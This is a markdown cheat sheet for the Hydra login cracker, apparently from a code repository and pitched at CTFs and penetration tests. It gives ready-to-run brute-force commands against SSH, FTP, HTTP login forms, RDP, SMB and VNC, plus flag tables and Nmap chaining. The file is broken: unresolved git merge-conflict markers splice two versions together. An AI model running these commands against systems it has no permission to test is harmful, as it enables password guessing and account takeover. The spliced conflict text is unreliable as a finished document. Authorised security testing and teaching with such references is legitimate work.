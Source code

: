 <<<<<<< HEAD
# 🔥 Hydra Cheat Sheet — Bruteforce Like a Pro

Hydra is a parallelized login cracker which supports numerous protocols. It’s extremely flexible and essential in CTFs, pentests, and brute-force assessments.

## 🚀 Common Syntax

```
hydra [OPTIONS] -L user.txt -P pass.txt <protocol>://<target>
```

## 🔐 Protocols Supported (Common Ones)

- ssh
- ftp
- telnet
- http-get / http-post-form
- smb
- rdp
- vnc

---

## 🧪 Real-World Examples

### 1. SSH Brute Force

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.1.111
```

### 2. FTP Brute Force

```bash
hydra -L user.txt -P pass.txt ftp://192.168.1.100
```

### 3. HTTP POST Form Attack (Example: login.php)

```bash
hydra -l admin -P rockyou.txt 192.168.1.50 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```

- Adjust `F=` to match the failure response in the page.

### 4. RDP Brute Force

```bash
hydra -t 1 -V -f -l administrator -P pass.txt rdp://192.168.1.10
```

### 5. SMB Brute Force

```bash
hydra -L users.txt -P passwords.txt smb://192.168.1.20
```

### 6. VNC with No Password

```bash
hydra -P /usr/share/wordlists/nmap.lst -t 4 -vV -f 192.168.1.33 vnc
```

### 7. Custom Port

```bash
hydra -L user.txt -P pass.txt -s 2222 ssh://192.168.1.111
```

---

## ⚙️ Useful Switches

| Switch      | Description                              |
|-------------|------------------------------------------|
| `-L`        | User list file                            |
| `-P`        | Password list file                        |
| `-t`        | Number of parallel tasks (default 16)     |
| `-f`        | Exit after first found login              |
| `-V`        | Verbose (shows attempts)                  |
| `-vV`       | Very verbose                              |
| `-s`        | Specify port                              |
| `-o`        | Output results to file                    |

---

## 🧠 Tips

- Always check the target’s protocol version (e.g., SSHv2 only).
- If HTTP/S fails, manually test login and capture the POST request in Burp Suite.
- Combine Hydra with Nmap scan results for service detection.

---

## 🧵 Tool Chaining

1. Scan open ports and services with Nmap:
   ```bash
   nmap -sV -Pn 192.168.1.111
   ```
2. Use Hydra on identified services.

3. Validate hits with Medusa or manually.

=======
# Hydra Cheat Sheet

## Basic Usage
- `hydra -l user -P /path/to/wordlist.txt host ssh`
>>>>>>> c251b9ded9ccaf3883abc2e8e4d5a2e64a269b54
